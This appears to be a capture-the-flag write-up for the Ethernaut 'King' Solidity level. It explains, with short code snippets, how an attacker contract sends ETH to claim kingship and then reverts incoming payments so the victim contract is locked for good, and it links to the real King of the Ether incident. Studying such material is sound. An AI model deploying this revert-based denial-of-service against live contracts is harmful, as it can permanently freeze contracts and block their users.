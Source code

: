 # King

## Key

> transfer() will revert if the external transaction reverts.
> https://blog.sigmaprime.io/solidity-security.html#ou-example

**Strategy**
After becoming king, when instance tries to took over:

```
 receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value); // we need to revert here
    king = msg.sender; // this wont execute
    prize = msg.value; // this wont execute
  }
```

`transfer()` wont succed if Attacker contract has no matching function to receive that payment: not having a payable callback or event having that callback with a `revert()` in it.

## Solution

1. Become king paying more than price to victims contract. Deploying the King contract with 1 ETH:

```
constructor() public payable {
    // triggers fallback function on Kings contract.
    // contract.prize() == 13008896
    address(0xB5Dc074E7484D32Faf3cb747E2b7cc28b4a203d5).call{value: msg.value}("");
}
```

2. Avoid having a fallback payable function, to cut the execution process on `king.transfer()`. Or including a `revert()` in it:

```
function() external payable {
  revert("PWN");
 }
```

3. Select verify instance. Nobody can become a new king, even if they want to pay more than our prize because `king = msg.sender` wont ever executes.

## Post solution info

Most of Ethernaut's levels try to expose (in an oversimpliefied form of course) something that actually happend. A real hack or a real bug.

In this case, see: King of the Ether and King of the Ether Postmortem: https://www.kingoftheether.com/thrones/kingoftheether/index.html http://www.kingoftheether.com/postmortem.html
